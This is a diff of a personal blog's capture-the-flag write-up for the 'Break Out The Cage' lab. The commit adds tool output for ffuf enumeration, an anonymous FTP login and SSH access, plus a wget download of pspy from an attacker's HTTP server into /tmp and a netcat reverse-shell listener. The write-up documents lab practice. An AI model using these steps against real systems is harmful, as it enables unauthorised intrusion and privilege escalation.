

Before and after one commit to 1neWrld/1neWrld.github.io, a Jekyll site: the page built from _posts/2025-05-13-Break-Out-The-Cage.md, in a window 1280 px wide and 1400 px high, scrolled down 1802 px. Shown: the whole window at 96% size, without its empty margins (178-1101 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2025-05-13-Break-Out-The-Cage.md

````diff
--- a/_posts/2025-05-13-Break-Out-The-Cage.md
+++ b/_posts/2025-05-13-Break-Out-The-Cage.md
@@ -78,9 +78,36 @@
 Then ran ffuf to enumerate web directories:
 
 ```bash
-ffuf -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt \
-  -u http://<TARGET_IP>/FUZZ \
-  -mc 301,302,403
+ffuf -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -u http://<TARGET_IP>/FUZZ -mc 301,302,403 -t 64
+
+        /'___\  /'___\           /'___\
+       /\ \__/ /\ \__/  __  __  /\ \__/
+       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
+        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
+         \ \_\   \ \_\  \ \____/  \ \_\
+          \/_/    \/_/   \/___/    \/_/
+
+       v2.1.0-dev
+________________________________________________
+
+ :: Method           : GET
+ :: URL              : http://<TARGET_IP>/FUZZ
+ :: Wordlist         : FUZZ: /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
+ :: Follow redirects : false
+ :: Calibration      : false
+ :: Timeout          : 10
+ :: Threads          : 64
+ :: Matcher          : Response status: 301,302,403
+________________________________________________
+
+images                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 169ms]
+html                    [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 171ms]
+scripts                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 170ms]
+contracts               [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 169ms]
+auditions               [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 169ms]
+server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 168ms]
+:: Progress: [207643/207643] :: Job [1/1] :: 256 req/sec :: Duration: [0:09:21] :: Errors: 0 ::
+
 ```
 
 Found an `/auditions` directory containing an MP3 file.
@@ -90,15 +117,37 @@
 ## 2. FTP — Anonymous Login
 
 ```bash
-ftp <TARGET_IP>
-# Username: anonymous
-# Password: (blank)
+FTP <TARGET_IP>
+Connected to <TARGET_IP>.
+220 (vsFTPd 3.0.3)
+Name (...): anonymous
+331 Please specify the password.
+Password:
+230 Login successful.
+Remote system type is UNIX.
+Using binary mode to transfer files.
+ftp> ls
+229 Entering Extended Passive Mode (|||52476|)
+150 Here comes the directory listing.
+-rw-r--r--    1 0        0             396 May 25  2020 dad_tasks
+226 Directory send OK.
+ftp> help
+...
+ftp> get dad_tasks
+local: dad_tasks remote: dad_tasks
+...
+226 Transfer complete.
+396 bytes received in 00:00 (1.21 KiB/s)
+ftp> bye
+221 Goodbye.
+
 ```
 
 Retrieved a file containing base64 encoded text. Decoded it:
 
+
 ```bash
-base64 -d encoded_file.txt
+base64 -d dad_tasks.txt > dad_tasks_decoded
 ```
 
 The output was Vigenère ciphertext — not yet readable without a key.
@@ -125,7 +174,44 @@
 
 With the key `lessonTwo`, decrypted the ciphertext from the FTP file using [dcode.fr/vigenere-cipher](https://www.dcode.fr/vigenere-cipher).
 
-This revealed credentials — used them to SSH in as **weston**.
+This revealed the deciphered data, where westons password resides.
+
+```bash
+Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
+One. Revamp the website
+Two. Put more quotes in script
+Three. Buy bee pesticide
+Four. Help him with acting lessons
+Five. Teach Dad what "information security" is.
+
+In case I forget.... (Weston's Password resides here)
+```
+Used it to SSH in as **weston**.
+
+```bash
+ssh weston@<TARGET_IP>
+...
+weston@10.48.136.40's password: (Enter westons password we discovered here)
+Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)
+...
+         __________
+        /\____;;___\
+       | /         /
+       `. ())oo() .
+        |\(%()*^^()^\
+       %| |-%-------|
+      % \ | %  ))   |
+      %  \|%________|
+       %%%%
+Last login: Tue May 26 10:58:20 2020 from 192.168.247.1
+...
+“Killing me won’t bring back your Super_Duper_Checklist email_backup Super_Duper_Checklist email_backup honey!” — The Wicker Man
+..
+weston@national-treasure:~$ whoami
+weston
+weston@national-treasure:~$
+
+```
 
 ---
 
@@ -138,8 +224,25 @@
 # uid=1001(weston) gid=1001(weston) groups=1001(weston),1000(cage)
 ```
 
-Being in the `cage` group meant write access to:
 
+Refering back to the book "Linux Basics for Hackers by OccupyTheWeb". The group leader is always associated with the '1000' uid — Spectating the user id, we discover weston is apart of the `cage` group.
+
+Now utilising the pspy64s payload will allow us to monitor running processes without root privileges. It lets you spy on what commands other users (including root) are executing.
+
+After downloading the payload, follow this to upload it to the target machine and grant executing permissions:
+
+```bash
+# Attackers (ME) Terminal:
+python3 -m http.server
+
+# Target (weston) terminal
+wget http://<Your IP>:8000/pspy64s -O /tmp/pspy64s
+chmod +x /tmp/pspy64s
+```
+Now on the previous VM I completed, I had issues granting executing permissions to the pspy payload, due to my remote system not having write permissions. To bypass this issue — /tmp is world-writable, therefore downloading the payload to the /tmp directory completely disregards such uneccesary headache.
+
+
+Viewing the processes, you'll come across
 ```
 /opt/.dads_scripts/.files/.quotes
 ```
@@ -169,16 +272,46 @@
 Started a listener on Kali:
 
 ```bash
+# Attackers (ME) Terminal:
 nc -lvnp 4444
 ```
 
 Within a minute the cron job fired and a shell dropped as **cage**.
 
+```bash
+# Target Terminal
+revshell time
+
+# Attacker Terminal
+# Upgrade you shell to a proper tty first
+$ python3 -c 'import pty;pty.spawn("/bin/bash")'
+cage@national-treasure:~$ whoami
+whoami
+cage
+cage@national-treasure:~$
+
+```
+
+Listing the current working directory, we can see 2 available directories for us to access. Viewing the "Super_Duper_Checklist" directory, we can see one of the remaining flags.
+
+```bash
+cage@national-treasure:~$ ls
+ls
+email_backup  Super_Duper_Checklist
+cage@national-treasure:~$ cat Super_Duper_Checklist
+cat Super_Duper_Checklist
+1 - Increase acting lesson budget by at least 30%
+2 - Get Weston to stop wearing eye-liner
+3 - Get a new pet octopus
+4 - Try and keep current wife
+5 - Figure out why Weston has this etched into his desk: (Flag resides here)
+```
+
 ---
 
 ## 6. Privilege Escalation — cage → root
 
-In cage's home directory found an email:
+Entering cage's "email_backup" directory, we see 3 emails:
 
 ```bash
 cat email_3
@@ -194,13 +327,7 @@
 
 Decrypted using Vigenère with key `face` → revealed root's password.
 
-Upgraded to a proper TTY first:
 
-```bash
-python3 -c 'import pty;pty.spawn("/bin/bash")'
-```
-
-Then:
 
 ```bash
 su root
@@ -214,7 +341,7 @@
 The flag wasn't in `/root/root.txt` — it was in root's mail:
 
 ```bash
-cat /var/mail/root
+cat /root/email_backup/email_1 OR email_2
 ```
 
 ---
````
Also changed, not shown: other parts of _posts/2025-05-13-Break-Out-The-Cage.md (+2 -2 lines).
